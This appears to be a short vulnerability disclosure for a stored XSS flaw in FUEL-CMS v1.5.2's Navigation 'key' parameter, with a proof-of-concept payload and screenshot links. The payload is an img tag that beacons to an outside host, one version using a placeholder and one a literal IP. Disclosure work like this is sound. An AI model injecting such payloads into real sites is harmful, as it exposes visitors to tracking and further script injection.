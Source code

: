 # Stored XSS vulnerability in FUEL-CMS v1.5.2 of the key param

**vender**:

- [daylightstudio/FUEL-CMS: A CodeIgniter Content Management System](https://github.com/daylightstudio/FUEL-CMS)

**SoftLink**:

- [Release 1.5.2 · daylightstudio/FUEL-CMS](https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.5.2)

**Vulnerable param**

- Key in Navigation

**Version**

- v 1.5.2

### POC 

```
<img src="http://vps:2333" alt="dune">
```

```
<img src="http://189.1.245.32:2333" alt="dune">
```

the param key

![image-20250818214431833](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508182144976.png)





![image-20250818213944314](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508182139444.png)





![image-20250818214445461](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508182144551.png)

